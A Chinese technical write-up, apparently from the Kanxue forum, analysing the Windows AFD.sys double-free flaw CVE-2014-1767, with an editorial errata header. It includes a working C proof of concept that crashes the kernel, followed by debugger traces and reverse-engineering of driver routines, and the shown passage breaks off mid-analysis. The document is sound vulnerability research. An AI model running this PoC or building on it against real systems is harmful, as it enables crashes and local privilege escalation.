# 万字长文详解CVE-2014-1767提权漏洞分析与利用（x86x64）

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows AFD.sys双重释放 CVE-2014-1767
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：测试Win7x86SP1而影响列表跨XP/RT/多个Server未列build/KB且无MSRC来源，不能把代码适用范围当所有平台；把pool额外4字节猜作tag及释放清前4字节归因未经证明，PatchGuard不能笼统套x86，SMEP/内核地址查询限制需平台条件
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 两个IOCTL异常路径、MDL释放与Lookaside复用以及WorkerFactory原语分析连贯，属于本地提权不是远程135服务漏洞
2. 测试Win7x86SP1而影响列表跨XP/RT/多个Server未列build/KB且无MSRC来源，不能把代码适用范围当所有平台
3. 作者明确部分结构/空结尾猜测未调试，应标推断，后文TpInfoElementCount与先前数组哨兵说法需统一
4. 输入用户边界0x7FFF000/0x7FFF0000前后少一零，4字节对齐是低2位而非低4位
5. MDL计算代码virtualAddress%4与注释页面低12位不符，样本地址恰合不代表通用公式
6. 对象伪C含void非指针/大小0xC与后续0x18不一致，函数定义/硬编码token及句柄表偏移仅该build
7. 把pool额外4字节猜作tag及释放清前4字节归因未经证明，PatchGuard不能笼统套x86，SMEP/内核地址查询限制需平台条件
8. x64仅适配思路和截图，声称附件EXP实际无链接，外文PDF参考空白
9. 补丁分析自认未对比，仅描述清index，需补真实diff和MS14-040/KB核验
10. 代码会破坏内核对象并蓝屏，恢复hook/句柄并不能证明无资源残留，应实验隔离且不扩为生产可靠利用

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

yumoqaq  看雪学苑   2022-06-14 18:11  
  
  
  
本文为看雪论坛精华文章看雪论坛作者ID：yumoqaq  
  
  
这是我第一个研究的漏洞，虽然已经有相当多的资料与文章对这个漏洞进行了分析，但是大部分都是（ctrlCV你懂的），参考了前人的资料，给出了还不如前人的分析文章，让我这个纯纯的新手感觉到困难重重。所以我想把我的分析与思考的过程分享给大家，希望可以帮助到像我一样的菜鸟们，  
同时也是向那些无私奉献的大佬们致敬！  
  
# 概述  
  
  
在2014年的Pwn2Own黑客大赛上，Siberas安全团队利用CVE-2014-1767 Windows AFD.sys 双重释放漏洞进行内核提权，以此绕过windows8.1 平台上的IE11沙箱，随后该漏洞因此获得2014年黑客奥斯卡的“最佳提权漏洞奖”。  
  
  
# 影响版本  
```
Windows 8.1
Windows 8
Windows 7
Windows Vista
Windows XP
Windows Server 2012 R2
Windows Server 2012
Windows Server 2008 R2
Windows Server 2008
Windows Server 2003
Windows RT
Windows RT 8.1
```  
#   
#   
#   
# 实验环境  
  
  
  
  
# POC  
  
  
将以下代码编译，我使用VS2019，编译后在win7x86 SP1的虚拟机上运行，蓝屏崩溃。  
```
#include <stdio.h>
#include <WinSock2.h>
#include <WS2tcpip.h>
#pragma comment(lib,"Ws2_32.lib")
 
int main()
{
    DWORD targetSize = 0x310;
    DWORD virtualAddress = 0x13371337;
    DWORD mdlSize = (0x4000 * (targetSize - 0x30) / 8) - 0xFFF - (virtualAddress & 0xFFF);
    static DWORD inbuf1[100];
    memset(inbuf1, 0, sizeof(inbuf1));
    inbuf1[6] = virtualAddress;
    inbuf1[7] = mdlSize;
    inbuf1[10] = 1;
    static DWORD inbuf2[100];
    memset(inbuf2, 0, sizeof(inbuf2));
    inbuf2[0] = 1;
    inbuf2[1] = 0x0AAAAAAA;
    WSADATA WSAData;
    SOCKET s;
 
    SOCKADDR_IN sa;
    int ierr;
    WSAStartup(0x2, &WSAData);
    s = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    memset(&sa, 0, sizeof(sa));
    sa.sin_port = htons(135);
    sa.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
    sa.sin_family = AF_INET;
    ierr = connect(s, (const struct sockaddr*)&sa, sizeof(sa));
    static char outBuf[100];
    DWORD bytesRet;
    DeviceIoControl((HANDLE)s, 0x1207F, (LPVOID)inbuf1, 0x30, outBuf, 0,
        &bytesRet, NULL);
    DeviceIoControl((HANDLE)s, 0x120C3, (LPVOID)inbuf2, 0x18, outBuf, 0,
        &bytesRet, NULL);
    return 0;
}
```  
#   
#   
#   
# BSOD信息  
```
The current thread is making a bad pool request.  Typically this is at a bad IRQL level or double freeing the same allocation, etc.
Arguments:
Arg1: 00000007, Attempt to free pool which was already freed      //尝试释放已释放的池
Arg2: 00001097, Pool tag value from the pool header
Arg3: 08bd0006, Contents of the first 4 bytes of the pool header
Arg4: 888aa318, Address of the block of pool being deallocated
 
FREED_POOL_TAG:  Mdl
POOL_ADDRESS:  888aa318 Nonpaged pool
 
STACK_TEXT: 
8fd8454c 84720083 00000003 7b818ced 00000065 nt!RtlpBreakWithStatusInstruction
8fd8459c 84720b81 00000003 888aa310 000001ff nt!KiBugCheckDebugBreak+0x1c
8fd84960 84762c6b 000000c2 00000007 00001097 nt!KeBugCheck2+0x68b
8fd849d8 846cdec2 888aa318 00000000 888ab6f0 nt!ExFreePoolWithTag+0x1b1
8fd849ec 8db8ceb0 888aa318 00000000 8db6f89f nt!IoFreeMdl+0x70
8fd84a08 8db6f8ac 00000000 00000001 026e1e9f afd!AfdReturnTpInfo+0xad
8fd84a44 8db70bba 026e1e37 000120c3 8db70a8c afd!AfdTliGetTpInfo+0x89
8fd84aec 8db752bc 89c36640 888a7708 8fd84b14 afd!AfdTransmitPackets+0x12e
8fd84afc 84678593 888a7708 896c3790 896c3790 afd!AfdDispatchDeviceControl+0x3b
8fd84b14 8486c99f 89c36640 896c3790 896c386c nt!IofCallDriver+0x63
8fd84b34 8486fb71 888a7708 89c36640 00000000 nt!IopSynchronousServiceTail+0x1f8
8fd84bd0 848b63f4 888a7708 896c3790 00000000 nt!IopXxxControlFile+0x6aa
8fd84c04 8467f1ea 00000050 00000000 00000000 nt!NtDeviceIoControlFile+0x2a
8fd84c04 779070b4 00000050 00000000 00000000 nt!KiFastCallEntry+0x12a
0017f618 77905864 75cc989d 00000050 00000000 ntdll!KiFastSystemCallRet
0017f61c 75cc989d 00000050 00000000 00000000 ntdll!ZwDeviceIoControlFile+0xc
0017f67c 75e9a671 00000050 000120c3 00fb3588 KERNELBASE!DeviceIoControl+0xf6
 
MODULE_NAME: afd
IMAGE_NAME:  afd.sys
 
0: kd> lmvm afd
Browse full module list
start    end        module name
8db54000 8dbae000   afd        (pdb symbols)        
    Loaded symbol image file: afd.sys
    Image path: \SystemRoot\system32\drivers\afd.sys
```  
#   
#   
  
# 分析上述信息  
  
  
1.从上面的蓝屏信息可以看出， 这个POC触发了 afd.sys的双重释放漏洞，释放的是一个MDL对象，地址为非分页内存。  
  
   
  
2.afd.sys 是一个 winsock辅助驱动（百度可知）。  
  
   
  
3.POC中使用了一个初始化后的socket对象当作句柄，来调用到afd驱动中的例程，控制码为 0x1207F 与 0x120C3 （一般调用驱动的流程为通过符号链接来得到句柄，这里直接传入socket，应该是经过操作过后的socket句柄在内核对应的对象中与直接创建的设备句柄有些不同，不然没必要进行这一步操作）。  
  
   
  
4.调用堆栈中看出，通过nt!ZwDeviceIoControlFile 进入内核 ，调用到afd派遣例程afd!AfdDispatchDeviceControl ，然后调用到控制码对应的处理例程afd!AfdTransmitPackets ，之后触发蓝屏。  
  
   
  
5.既然是双重释放导致的蓝屏，那么BSOD中的调用堆栈应该为第二次触发free的堆栈。  
  
   
  
6.根据前五点得出的信息，想要得知poc的工作流程，首先得去 0x1207F 控制码的处理例程中去分析。  
  
   
  
7.想要得到 0x1207F 控制码的处理例程，根据调用堆栈，进行跟踪即可。  
#   
#   
# 0x1207F处理例程分析  
##   
## 1.双机调试  
  
  
在NtDeviceIoControlFile 函数下条件断点，IO控制码在第六个参数，也就是 esp+18 ，命令如下，之后使用wt命令即可跟踪调用堆栈（不建议 我卡死了）  
  
   
  
所以尝试在调用较少的函数处下断，例如afd!AfdReturnTpInfo，它会调用IoFreeMdl释放内存（查看IDA函数引用可得知，调用AfdReturnTpInfo的函数只有几个，所以可以尝试在这些函数下断，如果没成功定位（也就是两次释放的流程不同，不是都经过AfdReturnTpInfo）则可以逆向分析派遣例程中的控制码或者是使用wt命令追踪是比较稳妥的）  
  
  
```
0: kd> bp nt!NtDeviceIoControlFile ".if (poi(esp+18) = 0x1207F){}.else{gc;}"
0: kd> wt
```  
  
```
1: kd> bp afd!AfdReturnTpInfo
 
1: kd> g
Breakpoint 0 hit
afd!AfdReturnTpInfo:
94273e03 8bff            mov     edi,edi
 
2: kd> kb
# ChildEBP RetAddr  Args to Child             
00 9fee3a38 942578c1 875794b8 00000001 0bcaffe7 afd!AfdReturnTpInfo
01 9fee3aec 9425c2bc 8a17c958 88ba0938 9fee3b14 afd!AfdTransmitFile+0x5a3
02 9fee3afc 8463e593 88ba0938 89732418 89732418 afd!AfdDispatchDeviceControl+0x3b
03 9fee3b14 8483299f 8a17c958 89732418 897324f4 nt!IofCallDriver+0x63
04 9fee3b34 84835b71 88ba0938 8a17c958 00000000 nt!IopSynchronousServiceTail+0x1f8
05 9fee3bd0 8487c3f4 88ba0938 89732418 00000000 nt!IopXxxControlFile+0x6aa
06 9fee3c04 846451ea 00000050 00000000 00000000 nt!NtDeviceIoControlFile+0x2a
07 9fee3c04 773a70b4 00000050 00000000 00000000 nt!KiFastCallEntry+0x12a
08 0014f8d8 773a5864 7556989d 00000050 00000000 ntdll!KiFastSystemCallRet
09 0014f8dc 7556989d 00000050 00000000 00000000 ntdll!ZwDeviceIoControlFile+0xc
 
 
2: kd> kb
# ChildEBP RetAddr  Args to Child             
00 9fee3a08 942568ac 875794b8 00000001 0bcaff4f afd!AfdReturnTpInfo
01 9fee3a44 94257bba 0bcaffe7 000120c3 94257a8c afd!AfdTliGetTpInfo+0x89
02 9fee3aec 9425c2bc 8a17c958 88ba0938 9fee3b14 afd!AfdTransmitPackets+0x12e
03 9fee3afc 8463e593 88ba0938 89732418 89732418 afd!AfdDispatchDeviceControl+0x3b
```  
  
  
好的，经过我们的推测后下断，并启动POC程序，成功断下，查看调用堆栈，可以看到，afd!AfdTransmitFile的调用。  
  
   
  
所以控制码 0x1207F对应的处理例程为 AfdTransmitFile。  
  
   
  
第二次g之后断下，查看堆栈，0x120C3 对应的处理例程就肯定是 AfdTransmitPackets 了。  
  
   
  
之后再g ，蓝屏 ，太好了 ，两次调用后蓝屏，正好对应poc的工作流程。  
##   
## 2.逆向分析AfdTransmitFile  
  
  
定位到两个关键的处理例程之后，开始进行逆向分析，把驱动文件拷出来，使用IDA加载符号后分析。  
  
   
  
AfdTransmitFile 的两个参数 ， 由于它是 fastcall ， 所以它的参数在 ecx与edx中， 根据资料得知，ecx为 PIrp，edx为PIoStackLocation（你也可以在派遣例程中逆向或者动态跟踪得到）。  
  
   
  
查看一下他们的结构，对于_IO_STACK_LOCATION ， 它的Parameters成员 对于不同的IRP处理例程有不同的定义 ，下边给出的结构体是对于DeviceIoControl时的定义。  
```
kd> dt _Irp
ntdll!_IRP
   +0x000 Type             : Int2B
   +0x002 Size             : Uint2B
   +0x004 MdlAddress       : Ptr32 _MDL
   +0x008 Flags            : Uint4B
   +0x00c AssociatedIrp    : <unnamed-tag>
   +0x010 ThreadListEntry  : _LIST_ENTRY
   +0x018 IoStatus         : _IO_STATUS_BLOCK
   +0x020 RequestorMode    : Char
   +0x021 PendingReturned  : UChar
   +0x022 StackCount       : Char
   +0x023 CurrentLocation  : Char
   +0x024 Cancel           : UChar
   +0x025 CancelIrql       : UChar
   +0x026 ApcEnvironment   : Char
   +0x027 AllocationFlags  : UChar
   +0x028 UserIosb         : Ptr32 _IO_STATUS_BLOCK
   +0x02c UserEvent        : Ptr32 _KEVENT
   +0x030 Overlay          : <unnamed-tag>
   +0x038 CancelRoutine    : Ptr32     void
   +0x03c UserBuffer       : Ptr32 Void
   +0x040 Tail             : <unnamed-tag>
 
dt _IO_STACK_LOCATION
ntdll!_IO_STACK_LOCATION
   +0x000 MajorFunction    : UChar
   +0x001 MinorFunction    : UChar
   +0x002 Flags            : UChar
   +0x003 Control          : UChar
   +0x004 Parameters       : <unnamed-tag>
 
          struct {
    0x4        ULONG  OutputBufferLength;
    0x8        ULONG POINTER_ALIGNMENT  InputBufferLength;
    0xC        ULONG POINTER_ALIGNMENT  IoControlCode;
    0x10        PVOID  Type3InputBuffer;
        } DeviceIoControl;
 
   +0x014 DeviceObject     : Ptr32 _DEVICE_OBJECT
   +0x018 FileObject       : Ptr32 _FILE_OBJECT
   +0x01c CompletionRoutine : Ptr32     long
   +0x020 Context          : Ptr32 Void
```  
  
  
然后在IDA中插入这两个结构体的定义，如下图输入名字，点击ok即可。  
  
  
  
   
  
接下来可以开始正式的分析了，我使用汇编进行分析，可能篇幅会比较长。  
  
  
  
这里会有分支，通过判断FsContext的值，这个时候需要动态调一下 ， 查看程序走了哪个分支。  
```
1: kd> bp afd!AfdTransmitFile
 
1: kd> g
Breakpoint 0 hit
afd!AfdTransmitFile:
8db6c31e 6884000000      push    84h
 
1: kd> r edx
edx=89689b4c
 
1: kd> dt _IO_STACK_LOCATION 89689b4c
ntdll!_IO_STACK_LOCATION
   +0x018 FileObject       : 0x89a33ab0 _FILE_OBJECT
 
1: kd> dt _FILE_OBJECT 0x89a33ab0
ntdll!_FILE_OBJECT
   +0x00c FsContext        : 0x877fcbc0 Void
 
1: kd> dd 0x877fcbc0
877fcbc0  0004afd2 00000000 00000200 89a3f658
```  
  
  
这里得到AFD2 ， 明显与 1AFD不同， 所以这个跳转指令生效 ，继续分析。  
  
  
  
   
  
这里又有判断跳转，动态查看一下参数。  
```
dd 89689b4c+0x8
89689b54  00000030 0001207f 00d63390 8751c4a0
```  
  
  
这里得到30，所以跳转生效，继续分析，又遇到两个跳转。  
   
  
  
  
   
  
动态查看参数，确定流程。  
```
1: kd> r ecx
ecx=89689a70
 
1: kd> dt _IRP 89689a70
ntdll!_IRP
   +0x000 Type             : 0n6
   +0x002 Size             : 0x190
   +0x004 MdlAddress       : (null)
   +0x008 Flags            : 0x60000
   +0x00c AssociatedIrp    : <unnamed-tag>
   +0x010 ThreadListEntry  : _LIST_ENTRY [ 0x897fe7fc - 0x897fe7fc ]
   +0x018 IoStatus         : _IO_STATUS_BLOCK
   +0x020 RequestorMode    : 1 ''
```  
  
  
这里可以得到 mode值为1，所以跳转未生效 ，继续查看下一个跳转。  
```
1: kd> dt _IO_STACK_LOCATION 89689b4c
ntdll!_IO_STACK_LOCATION
   +0x000 MajorFunction    : 0xe ''
   +0x001 MinorFunction    : 0x1f ''
   +0x002 Flags            : 0x5 ''
   +0x003 Control          : 0 ''
   +0x004 Parameters       : <unnamed-tag>
 
1: kd> dd 89689b4c + 0x10
89689b5c  00d63390 8751c4a0 89a33ab0 00000000
```  
  
  
这里得到 eax+10 也就是 Type3InputBuffer的值 低4位为0 ， 所以跳转生效，继续分析。  
  
   
  
这里提一下，为什么说是判断是否4字节对齐，看后面调用的参数 ，根据微软的解释：ExRaiseDatatypeMisalignment 例程可用于结构化异常处理，为驱动程序处理 I/O 请求时发生的不对齐数据类型引发驱动程序确定的异常。  
  
   
  
好的，继续分析，这里又遇到跳转，可以单步到这个位置看一下这个全局变量的值 值为0x7FFF000。  
  
  
  
   
  
  
  
   
  
分析到这里，有三个关键的跳转，如下：  
```
InputBufferLength >= 0x30;
InputBuffer & 0x3 == 0;
InputBuffer < 0x7FFF000;
```  
  
  
然后继续往下分析，遇到两个跳转，动态跟踪 ecx = 1 ，所以不跳转 ， 动态跟踪 ebp-80 = 0 ， 跳转生效。  
  
  
```
afd!AfdTransmitFile+0x90:
8db6c3ae f7c1c8ffffff    test    ecx,0FFFFFFC8h
1: kd> r ecx
ecx=00000001
```  
  
  
  
   
  
好的，继续往下分析，这里遇到两个跳转，动态跟踪 Afd全局变量的值为 0x10。  
  
  
  
   
  
  
  
   
  
edx+8 的值为 200。  
```
1: kd> dd 0x877fcbc0
877fcbc0  0004afd2 00000000 00000200 89a3f658
```  
  
  
之后调用了 AfdTliGetTpInfo函数 ，ecx为参数 值为3 ，也就是 AfdTliGetTpInfo(3) 的调用。  
  
   
  
通过之前的堆栈调用，可以得知，这个函数在第二次free的时候被调用，所以这个函数也需要重点分析一下。  
  
## 3.逆向分析AfdTliGetTpInfo  
  
  
  
首先看到一个函数调用，比较陌生，不着急，一步一步来，根据书籍提示 查看 《使用 Lookaside List 分配内存》 这篇文章。  
  
   
  
得到函数原型与实现如下：  
```
PVOID p = ExAllocateFromNPagedLookasideList(lookaside);//从 non-paged 链节点里分配内存，返回内存块到 p
 
PVOID ExAllocateFromNPagedLookasideList(PNPAGED_LOOKASIDE_LIST Lookaside)
{
PSLIST_ENTRY ListEntry;
//  TotalAllocates  记录分配的次数，包括成功和失败
Lookaside->L.TotalAllocates++;
 
// 从节点里读取内存块链
ListEntry = ExInterlockedPopEntrySList(&Lookaside->L.ListHead);
 
// 分配内存有两个情形：
// 1. 返回 lookaside list 节点（SLIST_ENTRY）
// 2. 返回内存，假如 lookaside list 为空
if (ListEntry == NULL)
{
//  AllocateMisses 记录从 lookaside list 中分配失败的次数   也就是从pool中分配的次数
Lookaside->L.AllocateMisses++;
 
// 调用 lookaside list 节点中的 Allocate() 例程
return Lookaside->L.Allocate(Lookaside->L.Type,
Lookaside->L.Size,
Lookaside->L.Tag);
}
else
return ListEntry;
}
```  
  
  
同时得到一些信息，代码使用 ExInterlockedPopEntrySList() 例程来读取节点内存块地址 ，如果lookaside list 为空， 则调用。  
  
   
  
Lookaside结构中的默认分配内存例程 Allocate进行分配内存，否则直接返回lookaside list节点。  
  
   
  
继续查看得知Allocate的定义。  
  
   
  
PALLOCATE_FUNCTION Allocate 自定义的分配函数，缺省使用 ExAllocatePoolWithTag()。  
  
   
  
那么现在需要去跟踪一下，程序走了哪个流程。  
  
  
  
这里可以看  
到，返回值为0，也就是程序进入了 自定义的分配内存函数，继续跟踪查看函数与参数。  
  
  
  
  
可以看到这里调用了 AfdAllocateTpInfo，参数分别为 0 ， 108 ， c6646641 ， 根据Lookaside结构可知参数的意义。  
```
typdef struct _NPAGED_LOOKASIDE_LIST
{
GENERAL_LOOKASIDE L;
KSPIN_LOCK Lock;
} NPAGED_LOOKASIDE_LIST, *PNPAGED_LOOKASIDE_LIST;
 
typedef struct _GENERAL_LOOKASIDE {
SLIST_HEADER ListHead;            // 单向链表，用来挂接 pool block
USHORT Depth;                      // lookaside 的 depth，缺省为 4
USHORT MaximumDepth;            // maximum depth，缺省为 256
ULONG TotalAllocates;             // 记录进行多少次分配
ULONG AllocateMisses;             // 记录分配从 lookaside list 中分配失败次数
ULONG TotalFrees;                // 记录进行多少次释放
ULONG FreeMisses;                 // 记录从 lookaside list 中释放 miss 次数
POOL_TYPE Type;                 // pool type 类型，与 ExAllocatePoolWithTag() 参数一致
ULONG Tag;                      // 用于 ExAllocatePoolWithTag()
ULONG Size;                      // 用于 ExAllocatePoolWithTag()
PALLOCATE_FUNCTION Allocate;     // 自定义的分配函数，缺省使用 ExAllocatePoolWithTag()
PFREE_FUNCTION Free;             // 自定义的释放函数，缺省使用 ExFreePool()
LIST_ENTRY ListEntry;             // 双向 link list
ULONG LastTotalAllocates;        // 记录上一次 Allocate 次数
ULONG LastAllocateMisses;        // 记录上一次 Allocate  miss 次数
ULONG Future[2];                // 保留
} GENERAL_LOOKASIDE, *PGENERAL_LOOKASIDE;
```  
  
  
调用函数与参数 Lookaside->L.Allocate(Lookaside->L.Type, Lookaside->L.Size, Lookaside->L.Tag)  
  
   
  
这里可以得知 0为pool type 类型 ，也就是非分页内存 ， 0x108为分配的size ， c6646641 为 tag。  
  
   
  
所以这里可以得到 AfdAllocateTpInfo 的调用模型 ，返回值通过函数名，推测为TpInfo的指针。  
```
TpInfo* tpinfo = AfdAllocateTpInfo(POOL_TYPE PoolType, SIZE_T NumberOfBytes, ULONG Tag);
```  
  
  
那么事情真的是这样吗，去AfdAllocateTpInfo 中逆向分析一波。  
##   
## 4.逆向分析AfdAllocateTpInfo  
  
  
这个函数比较短，以下是它的反编译代码。  
```
PVOID __stdcall AfdAllocateTpInfo(POOL_TYPE PoolType, SIZE_T NumberOfBytes, ULONG Tag)
{
  PVOID TpInfo; // esi
 
  TpInfo = ExAllocatePoolWithTagPriority(0, 0x108, 0xc6646641 , 0);
  //首先分配一块内存，参数还是之前那三个，第四个优先级不用管
 
  if ( TpInfo )
    AfdInitializeTpInfo(TpInfo, AfdDefaultTpInfoElementCount, AfdTdiStackSize, 1);
   //调用AfdInitializeTpInfo 初始化这个结构体
  return TpInfo;  //返回这个结构体的指针
}
```  
  
  
得到的信息 AfdDefaultTpInfoElementCount = 3  
  
   
  
初始化tpinfo的函数先不看，需要的时候再来分析 ，接下来返回AfdTliGetTpInfo继续分析。  
  
   
  
下边为ExAllocateFromNPagedLookasideLif返回的数据 ，留着备用。  
```
1: kd> dd 896540c8  L70
896540c8  00000000 00000000 00000000 00000000
896540d8  00000000 00000000 00000000 00000000
896540e8  89654158 00000000 00000000 00000000
896540f8  00000002 00000000 00000000 00000000
89654108  00000000 00000000 00000000 00000000
89654118  00000000 00000000 00000000 00000000
89654128  00000000 00000000 00000000 00000000
89654138  896541a0 896541b8 00000000 00000000
89654148  00000000 00000000 00000000 00000000
89654158  899653a8 8977dd48 8977a360 8977dd40
89654168  89654170 02010000 88920b90 88920b90
89654178  8977a360 88920b88 89654188 02010001
89654188  8977aa28 8977aa28 8977a360 8977aa20
89654198  896541a0 02010002 88bc0000 88bc1c20
896541a8  896540c8 88bc1c18 00000000 00000000
896541b8  88b00001 88b0da08 896540c8 88b0da00
896541c8  00000000 00000000
```  
##   
##   
## 5.继续分析AfdTliGetTpInfo  
```
DWORD *__fastcall AfdTliGetTpInfo(unsigned int a1)
{
  _DWORD *tpinfo; // eax
  _DWORD *tpinfo1; // esi
 
  tpinfo = ExAllocateFromNPagedLookasideList((PNPAGED_LOOKASIDE_LIST)&AfdGlobalData[6].NumberOfSharedWaiters);
  tpinfo1 = tpinfo;
  if ( !tpinfo )
    return 0;
  tpinfo[2] = 0;
  tpinfo[3] = 0;
  tpinfo[4] = tpinfo + 3;
  tpinfo[5] = 0;
  tpinfo[6] = tpinfo + 5;
  tpinfo[13] = 0;
  *((_BYTE *)tpinfo + 51) = 0;
  tpinfo[9] = 0;
  tpinfo[11] = -1;
  tpinfo[15] = 0;
  tpinfo[1] = 0;
  if ( a1 > AfdDefaultTpInfoElementCount )  //这里 a1为上层传进来的3 AfdDefaultTpInfoElementCount = 3
  {                                            //所以没有进if
    tpinfo[8] = ExAllocatePoolWithQuotaTag((POOL_TYPE)16, 0x18 * a1, 0xC6646641);
    *((_BYTE *)tpinfo1 + 50) = 1;
  }
  return tpinfo1; //返回一个局部变量tpinfo
}
```  
  
  
下面为此函数返回的数据，留着备用。  
```
1: kd> dd 896540c8 l70
896540c8  00000000 00000000 00000000 00000000
896540d8  896540d4 00000000 896540dc 00000000
896540e8  89654158 00000000 00000000 ffffffff
896540f8  00000002 00000000 00000000 00000000
89654108  00000000 00000000 00000000 00000000
89654118  00000000 00000000 00000000 00000000
89654128  00000000 00000000 00000000 00000000
89654138  896541a0 896541b8 00000000 00000000
89654148  00000000 00000000 00000000 00000000
89654158  899653a8 8977dd48 8977a360 8977dd40
89654168  89654170 02010000 88920b90 88920b90
89654178  8977a360 88920b88 89654188 02010001
89654188  8977aa28 8977aa28 8977a360 8977aa20
89654198  896541a0 02010002 88bc0000 88bc1c20
896541a8  896540c8 88bc1c18 00000000 00000000
896541b8  88b00001 88b0da08 896540c8 88b0da00
896541c8  00000000 00000000
```  
##   
##   
## 6.继续分析AfdTransmitFile  
  
  
这里为了节省篇幅，动态跟踪的图就不放了，按照上面的步骤你可以自行查看。  
  
  
  
   
  
  
  
简单解释一下，上图中，我把esi假设一个结构体（根据结构体逆向经验可知），目前来看这个结构体的大小为0xC。  
```
struct unknow{
    int        flag;           //标志一类的东西
    ULONG    length;            //长度
    void    VirtualAddress; //虚拟地址
    PMDL    mdl;            //mdl结构的指针
}
```  
  
  
然后返回去看一下，上图中有一个乘法的部分，因为esi = 0 = *(tpinfo+0x28)， 所以最后相当于 0 + *(tpinfo+0x20)。  
  
   
  
如果把乘法那两条指令反编译，会得到一个寻址公式 *(tpinfo+0x20) +*(tpinfo+0x28) *18 ，简化一下 p + a * 18。  
  
   
  
可以得到这是一个数组寻址公式，p作为数组首地址，a作为index，0x18作为每一个元素的大小。  
  
   
  
再接着下面的分析，寻址出来的数据刚好被我们当作 unknow结构体来解释。  
  
   
  
所以这里可得，*(tpinfo+0x20) 是作为一个结构体数组的首地址。  
  
   
  
再看*(tpinfo+0x28) ，第一次被使用它的值为0，寻址完后，它的值变为1 ，预示着后面会寻址下一个unknow结构体，这也符合我们的推测。  
  
   
  
既然p与a都确定了下来， 那么0x18没跑，肯定是作为一个size的定位 ，且这个size就是unknow结构体的size。  
  
   
  
然后再往上看，*(tpinfo+0x38) = 0x1000 , 且这个值是被全局变量传过来的，AfdTransmitIoLength ， 传输IO长度，不清楚什么意思。  
  
   
  
现在就可根据分析，来大致描述出tpinfo 与 unknow 的结构。  
```
struct tpinfo {
    0x20   void      unknowArrary;      //unknow结构体数组首地址
    0x28   DWORD     index;                //unknow结构体数组的索引
    0x38   DWORD     TransmitIoLength;    //传输IO长度
}
 
struct unknow {
    0x0     int        flag;           //标志一类的东西
    0x4     ULONG    length;            //长度
    0x8        void    VirtualAddress; //虚拟地址
    0xC        void    mdl;            //mdl结构的指针
    0x10    int        Reserved1;        //没使用
    0x14    int        Reserved2;        //没使用
}
```  
  
  
注：外文PDF中称这个结构体为TpInfoElement 当然名字并不重要。  
  
   
  
那么现在还有一个问题，如果说 tpinfo+0x28的值作为索引，那它寻址完后加1是不是不合理，可能会产生溢出，此时猜测我们对它的分析还是有些偏差，或者还有没注意到的成员。  
  
   
  
此时往上看，在AfdAllocateTpInfo 中调用了 AfdInitializeTpInfo(TpInfo, AfdDefaultTpInfoElementCount, AfdTdiStackSize, 1);  
  
   
  
这里AfdDefaultTpInfoElementCount的值为3 ，可以推测它初始了3个unknow结构体。  
  
   
  
但是根据我们上面留存的数据比对，数组的首地址为 0x89654158 ，数据中并没有3的字样，且0x28偏移也就是我们推测的index为0。  
  
   
  
那么我们根据微软的习惯，大胆推测，这个0x28偏移为索引计数，在寻址后自加1，以便寻址下一个unknow结构，3没有出现在结构体中是因为微软使用了它常用的数组判断，结尾时放置同样大小的0来确定结尾，这样就可以解释的通0x28处的index的作用。  
  
   
  
当然，这里我没有动态去查看它的结尾是否为0，推测而已。  
  
   
  
接下来继续解释MDL相关的问题。  
  
   
  
以下为MDL相关的定义和参数的意义与返回值。  
```
PMDL IoAllocateMdl(
  [in, optional]      __drv_aliasesMem PVOID VirtualAddress,
  [in]                ULONG                  Length,
  [in]                BOOLEAN                SecondaryBuffer,
  [in]                BOOLEAN                ChargeQuota,
  [in, out, optional] PIRP                   Irp
);
 
/*
    VirtualAddress - 将要映射的起始虚拟地址。
    Length - 虚拟地址空间需要映射的长度，以字节为单位。
    SecondaryBuffer - 此参数仅当指定了IRP时有效。如果SecondaryBuffer为TRUE，那么将链接MDL到IRP的MDL链表中(通过MDL->next)，否则将申请到的MDL替换掉原来IRP的MDL（替换Irp->MdlAddress）
    ChargeQuota - 指定MDL的配额控制。注意，在WRK1.2中此参数被忽略。
    Irp - 指定MDL服务的IRP，为可选的参数。
 
    return ： 返回申请的MDL，创建MDL失败返回NULL。
    如果是因为配额导致的MDL创建失败，由调用者负责捕捉这个异常。
*/
 
typedef struct _MDL {
  struct _MDL      *Next;           //指向下一个MDL的指针  
  CSHORT           Size;            //整个MDL的长度 包含后面的数组
  CSHORT           MdlFlags;         //MDL的标记值
  struct _EPROCESS *Process;        //所属进程的EPROCESS
  PVOID            MappedSystemVa;     //该缓冲区映射在系统的地址VA
  PVOID            StartVa;            //虚拟地址 4K对齐
  ULONG            ByteCount;          //缓冲区长度
  ULONG            ByteOffset;      //虚拟地址的偏移
} MDL, *PMDL;
//StartVa + ByteOffset = 该段缓冲在Process进程空间中的虚拟地址
```  
  
  
MmProbeAndLockPages 主要用来将分页内存锁定，防止交换，它的第二个参数为1，表示用户态地址，第一个参数为mdl，第三个参数为访问权限。  
  
   
  
这里动态跟踪一下，查看mdl结构的信息。  
```
1: kd> dt _MDL 87dd8a20
ntdll!_MDL
   +0x000 Next             : (null)
   +0x004 Size             : 0n1500
   +0x006 MdlFlags         : 0n0
   +0x008 Process          : (null)
   +0x00c MappedSystemVa   : (null)
   +0x010 StartVa          : 0x13371000 Void 
   +0x014 ByteCount        : 0x16ecca 
   +0x018 ByteOffset       : 0x337
 
1: kd> dd 0x13371000
13371000  ???????? ???????? ???????? ????????
13371010  ???????? ???????? ???????? ????????
```  
  
  
虚拟地址为问号，说明这是无效内存，此时想起来POC中的一些数据，整理一下逆向过程中得到的数据。  
```
DWORD targetSize = 0x310;
DWORD virtualAddress = 0x13371337;
